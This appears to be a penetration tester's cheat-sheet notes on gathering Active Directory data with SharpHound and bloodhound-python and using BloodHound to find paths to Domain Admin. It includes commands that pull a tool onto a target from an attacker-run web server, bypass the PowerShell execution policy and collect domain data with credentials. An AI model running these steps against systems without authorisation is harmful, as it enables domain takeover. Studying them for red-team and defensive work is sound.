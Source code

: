 # Data Ingesters
Collects data for Bloodhound to analyse.
## Sharphound
https://github.com/SpecterOps/SharpHound/releases
### Step 1: Transfer Sharphound to target
```bash
python3 -m http.server
```
```powershell
iwr -uri http://$(IP_ADDRESS)/SharpHound.ps1 -OutFile SharpHound.ps1
```
### Step 2: Import Sharphound module
```powershell
powershell -ep bypass
```
```powershell
Import-Module .\SharpHound.ps1
```
### Step 3: Invoke-Bloodhound
```powershell
Get-Help Invoke-BloodHound
```
```powershell
Invoke-BloodHound -CollectionMethod All -OutputDirectory "$(PATH_TO_CURRENT_DIRECTORY)" -OutputPrefix "$(OUTPUT_FILENAME)"
```
## Bloodhound-Python
```bash
sudo bloodhound-python -d $(DOMAIN) -u $(USERNAME) -p $(PASSWORD) -ns $(DC_IP_ADDRESS) -c all
```
# Bloodhound
## How to run Bloodhound
```bash
sudo neo4j start
```
Note the link:
![image](https://github.com/user-attachments/assets/f775144d-ddcc-4a2b-8e1e-62e17eb024ac)

Log in with default credentials (neo4j/neo4j) and change the password when prompted (REMEMBER THE CREDS - I usually do neo4j1).
```bash
bloodhound
```
On bloodhound, at the menu on the right hand side, select "Upload Data".

Then, navigate to where the files were created and select them all.

Finally, click Settings (represented as two cogs) on the right side of the interface and setting Node/Edge Label Display to Always Display.
## Analysis
Useful Options:
* Click the Hamburger menu at the top left. This presents the Database Info.
* Click "Find All Domain Admins".
* Click "Find Shortest Paths to Domain Admins". Right clicking any connection between nodes and clicking "Help" will show more details 
* Objects can be right clicked and "Mark x as Owned" selected. This allows use to mark which objects/users are owned.
* "Shortest Paths to Domain Admins from Owned Principals" option is useful as it shows how to get to Domain Admin based on what we have marked as owned.
